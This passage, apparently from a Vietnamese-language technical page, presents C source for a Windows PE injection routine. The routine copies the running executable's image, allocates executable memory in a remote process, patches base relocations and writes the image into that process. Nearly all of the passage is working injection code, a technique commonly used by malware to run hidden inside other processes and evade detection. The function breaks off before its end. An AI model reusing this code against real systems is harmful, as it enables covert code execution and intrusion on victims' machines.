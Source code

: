 ***Ghi PE Ordinal Process vào Remote Process***

Mã sau được triển khai gần như giống
```c
INT64 WritePEToTarget(HANDLE hTarget)
{
	// Get current image's base address
	PVOID imageBase = GetModuleHandle(NULL);
	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)imageBase;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)imageBase + dosHeader->e_lfanew);

	// Allocate a new memory block and copy the current PE image to this new memory block
	PVOID localImage = VirtualAlloc(NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_READWRITE);
	memcpy(localImage, imageBase, ntHeader->OptionalHeader.SizeOfImage);

	HANDLE targetProcess = hTarget;

	// Allote a new memory block in the target process. This is where we will be injecting this PE
	PVOID targetImage = VirtualAllocEx(targetProcess, NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	printf("targetImage: %I64X\n", targetImage);
	// Calculate delta between addresses of where the image will be located in the target process and where it's located currently
	INT64 deltaImageBase = (DWORD_PTR)targetImage - (DWORD_PTR)imageBase;
	printf("deltaImageBase: %I64X\n", deltaImageBase);
	DWORD_PTR x = deltaImageBase + (DWORD_PTR)callback;
	printf("x: %I64X\n", x);
	// Relocate localImage, to ensure that it will have correct addresses once its in the target process
	PIMAGE_BASE_RELOCATION relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)localImage + ntHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].VirtualAddress);
	DWORD relocationEntriesCount = 0;
	PDWORD_PTR patchedAddress;
	PBASE_RELOCATION_ENTRY relocationRVA = NULL;

	while (relocationTable->SizeOfBlock > 0)
	{
		relocationEntriesCount = (relocationTable->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(USHORT);
		relocationRVA = (PBASE_RELOCATION_ENTRY)(relocationTable + 1);

		for (short i = 0; i < relocationEntriesCount; i++)
		{
			if (relocationRVA[i].Offset)
			{
				patchedAddress = (PDWORD_PTR)((DWORD_PTR)localImage + relocationTable->VirtualAddress + relocationRVA[i].Offset);
				*patchedAddress += deltaImageBase;
			}
		}
		relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)relocationTable + relocationTable->SizeOfBlock);
	}

	// Write the relocated localImage into the target process
	if (!WriteProcessMemory(targetProcess, targetImage, localImage, ntHeader->OptionalHeader.SizeOfImage, NULL)) {
		printf("Write Image to Target Process Failed With Error Code: %d\n", GetLastError());
		return -1;
	}
	/*printf("[+] Enter to write image\n");
	getchar();*/
	return deltaImageBase;
```